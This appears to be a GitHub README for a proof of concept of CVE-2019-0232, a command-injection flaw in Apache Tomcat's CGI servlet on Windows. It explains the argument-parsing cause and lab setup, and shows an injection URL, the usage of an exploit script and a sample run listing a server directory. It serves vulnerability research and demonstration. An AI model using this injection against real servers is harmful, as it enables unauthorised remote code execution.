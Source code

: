 # CVE-2019-0232

We present a PoC for CVE-2019-0232

`Vulnerable versions`: Apache Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 on Windows

When `enableCmdLineArguments` is `true` in CGI, there is a Remote Code Execution vulnerability due the way in which JRE passes command line arguments to Windows.

## The Vulnerability

This vulnerability is specific to Windows because of the way Windows handles command line arguments. Processes in Windows are created using a single command line parameter which is later parsed to get the separate arguments. 

The rules for quoting the command line arguments are vague, and hence user controlled arguments can be used to break the way Windows parses them and get code execution.

The interesting part is that when batch files (.cmd and .bat) are executed, they are excuted inside the `cmd.exe` encvironment. So, `file.bat` is converted to `C:\Windows\system32\cmd.exe /c "file.bat …"` and additional quoting is required to avoid command injection. But Java does not provide this quoting and hence breaking out of `file.bat` becomes easier and we can chain `evil.bat` using `file.bat&evil.bat`. Now, both `file.bat` and `evil.bat` will be executed by `cmd.bat` instead of only executing `file.bat`.  

So, The CGI request `http://localhost:8080/cgi/test.bat?&dir` is converted to `test.bat &dir` and `cmd.exe` interprets them as running `test.bat` and `dir` in conjunction.

## Setup

An instance of Windows_Server-2019-English-Full-Base-2021.03.10 on AWS was setup as a remote machine running Apache Tomcat 7.0.81.

1. Enabling privileged context for CGI support

In `%CATALINA_HOME%\conf\context.xml` modify

`<Context>` to `<Context privileged="true">`

![privileged_context](./img/priviledge_context.png)

2. Enabling CGI and enabling `enableCmdLineArguments`

![cgi_servlet](./img/cgi_servlet.png)

3. Setting correct Servlet mapping

![servlet_mapping](./img/servlet_mapping.png)

4. Creating the `cgi` folder and adding a `test.bat` file.

Create a folder called `cgi` in `%CATALINA_HOME%\webapps\ROOT\WEB-INF\`

Create a file `test.bat` in 
`%CATALINA_HOME%\webapps\ROOT\WEB-INF\cgi\test.bat`

with contents (A simple hello world CGI script)

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

ROOT is the web application mapped to /, so we have added a CGI script at URI `/cgi/test.bat`

## Running PoC

A sample check can be to test:

`http://localhost:8080/cgi/test.bat?&dir`

This should give out the Directory contents of the hosted server. 

The PoC is given [here](./exploit.py)

```
usage: exploit.py [-h] [-p PORT] [--ssl] -s PATH -c COMMAND host

positional arguments:
  host                  Host name or IP

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port of Tomcat server, default: 8080
  --ssl                 If server uses ssl
  -s PATH, --path PATH  Path of CGI script
  -c COMMAND, --command COMMAND
                        Command to run
```

`3.140.7.1` is the IP of the remote machine.

```python3 exploit.py -s cgi/test.bat -c dir 3.140.7.1```
```
[*] Sending command
[*] Result:
Hello, World!
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Downloads\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\webapps\ROOT\WEB-INF\cgi

03/26/2021  01:05 PM    <DIR>          .
03/26/2021  01:05 PM    <DIR>          ..
03/26/2021  01:04 PM    <DIR>          %SystemDrive%
03/26/2021  11:59 AM                67 test.bat
               1 File(s)             67 bytes
               3 Dir(s)  14,794,878,976 bytes free
```
